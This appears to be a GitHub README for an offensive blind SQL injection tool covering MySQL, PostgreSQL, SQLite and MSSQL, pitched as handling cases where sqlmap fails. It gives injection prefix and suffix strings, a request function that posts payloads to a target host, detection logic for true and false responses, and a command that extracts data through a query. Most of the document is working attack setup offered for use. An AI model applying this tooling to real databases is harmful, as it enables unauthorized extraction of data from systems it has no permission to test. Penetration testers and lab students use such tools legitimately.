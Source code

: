 # MySQLi
**Time** and **Boolean** based SQLi for **MySQL**,  **PostgreSQL**, **SQLite** and **MSSQL**  

![screenshot](https://github.com/physics-sp/MySQLi/blob/main/demo.png?raw=true)

## Features
- It allows you to have more control over the attack. You can handle logouts, CSRF tokens, and other tricky scenarios in which [sqlmap](https://github.com/sqlmapproject/sqlmap) doesn't work.
- It uses Binary search to increase speed
- Supports multiple types of databases _(MSSQL only supports Boolean based)_

## Usage
You can set strings that go before and after the query and the sleep time if Time based if being used
```python
PRE = "' OR"
POST = '--'
sleep_time = 2
```
Re-define the `send_req` function.
```python
def send_req(payload):
    #print(payload)
    params = {}
    cookies = {}
    headers = {}
    data = {'pwn': payload}
    proxies = {}
    # proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
    url = 'http://10.10.10.10/index.php'
    r = requests.post(
        url,
        params=params,
        data=data,
        headers=headers,
        verify=False,
        proxies=proxies,
        allow_redirects=False,
        cookies=cookies
    )
    return r
```
Optionally, you might want to re-define the `check_if_true` function to customize the detection of "true" and "false" queries.  
The _compare_value_ variable is the minimum response time of "true" queries in Time based and the Content-Length of "true" queries if Boolean based.
```python
def check_if_true(r, time_elapsed):
    if sqlitype == SQLiType.Time:
        return time_elapsed >= compare_value
    else:
        return int(r.headers['Content-Length']) == compare_value
```

Finally, run it specifying the database type, the SQL injection type and the query.
```bash
./MySQLi.py --database mysql --type boolean --query "select version() as leak"
```

## TODO
- Add Time based to MSSQL
- Add more DBs
- Add threads
